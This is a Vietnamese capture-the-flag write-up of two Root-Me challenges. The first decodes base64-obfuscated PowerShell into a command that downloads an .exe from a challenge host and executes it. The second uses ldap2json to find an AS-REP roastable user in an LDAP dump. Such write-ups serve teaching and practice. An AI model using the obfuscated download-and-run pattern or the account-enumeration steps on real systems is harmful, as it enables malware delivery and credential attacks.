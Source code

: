 Điều chú ý ở đây là phần powerShell bị làm rối bằng base64

```
STRING PowerShell -Exec ByPass -Nol -Enc 
aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AA
powershell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoA
exit
```

Giải mã ra ta được

```
iex ((New-Object System.Net.WebClient).DownloadFile('http://challenge01.root-me.org/forensic/ch14/files/666c616776765643f.exe','666c61676765643f.exe'));

iex ((New-Object -com shell.application).shellexecute('666c61676765643f.exe'));
```

Nó sẽ tải file ***666c616776765643f.exe*** từ ***http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe*** và thực thi nó

Tải về và thực thi ta có được flag

## Windows - LDAP User ASRepRoastable

![image](/assets/data/16.png)

Dùng kho lưu trữ này để phân tích
https://github.com/p0dalirius/ldap2json

```
 python3 analysis.py -f ../../ch32.json
[>] Loading ../../ch32.json ... done.
[]> help
 - searchbase                          Sets the LDAP search base.
 - object_by_property_name             Search for an object containing a property by name in LDAP.
 - object_by_property_value            Search for an object containing a property by value in LDAP.
 - object_by_dn                        Search for an object by its distinguishedName in LDAP.
 - search_for_kerberoastable_users     Search for users accounts linked to at least one service in LDAP.
 - search_for_asreproastable_users     Search for users with DONT_REQ_PREAUTH parameter set to True in LDAP.
 - help                                Displays this help message.
 - exit                                Exits the script.
[]> search_for_asreproastable_users
[CN=Fitzgerald,CN=Users,DC=ROOTME,DC=local] => userAccountControl
 - 4260352
```
Dùng ```object_by_dn CN=Fitzgerald,CN=Users,DC=ROOTME,DC=local``` để liệt kê thông tin của người dùng Fitzgerald
